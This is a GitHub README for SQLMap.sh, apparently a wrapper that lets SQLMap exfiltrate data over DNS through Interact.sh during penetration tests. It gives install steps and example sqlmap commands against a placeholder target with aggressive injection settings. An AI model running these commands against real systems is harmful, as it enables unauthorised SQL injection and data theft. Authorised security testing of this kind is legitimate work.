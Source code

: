 ![SQLMap.sh](./pics/sqlmapsh.png)

[![Go Report Card](https://goreportcard.com/badge/github.com/unlock-security/sqlmapsh)](https://goreportcard.com/report/github.com/unlock-security/sqlmapsh)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://github.com/unlock-security/sqlmapsh/blob/main/LICENSE)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/unlock-security/sqlmapsh)](https://github.com/unlock-security/sqlmapsh/releases/latest)
[![Twitter](https://img.shields.io/static/v1?style=flat&logo=twitter&label=Twitter&message=unlock_security&color=blue)](https://www.linkedin.com/company/unlock-security)
[![LinkedIn](https://img.shields.io/static/v1?style=flat&logo=linkedin&label=LinkedIn&message=Unlock+Security&color=blue)](https://www.linkedin.com/company/unlock-security)


SQLMap.sh is a SQLMap wrapper that lets you use Interact.sh as a DNS server for exfiltrating data with zero configuration.

To use the SQLMap `--dns-domain` flag you need to open your port 53 to the internet to let it run its own DNS server and you need a properly configured domain. This is not always possible during a penetration test engagement or maybe you just don't want to buy a domain for this.

SQLMap.sh solves this problem transparently. Just use it as if it is SQLMap and your are done to exfiltrate data via DNS.

## Installation

Run the following command to install the latest version.

```sh
go install github.com/unlock-security/sqlmapsh@latest
```

## Usage

Just replace `sqlmap` with `sudo sqlmapsh` when you want to use SQLMap with data exfiltration via DNS.

> **Note:** SQLMap requires root privileges to perform data exfiltration via DNS because it needs to bind it's own DNS server locally on port 53

For example:

```sh
$ sqlmap -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```

Become:

```sh
$ sudo sqlmapsh -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```


## License

[SQLMap.sh](https://github.com/unlock-security/sqlmapsh) is distributed under [GPLv3.0 License](https://github.com/unlock-security/sqlmapsh/blob/main/LICENSE) and made with 💙 by the Unlock Security team.
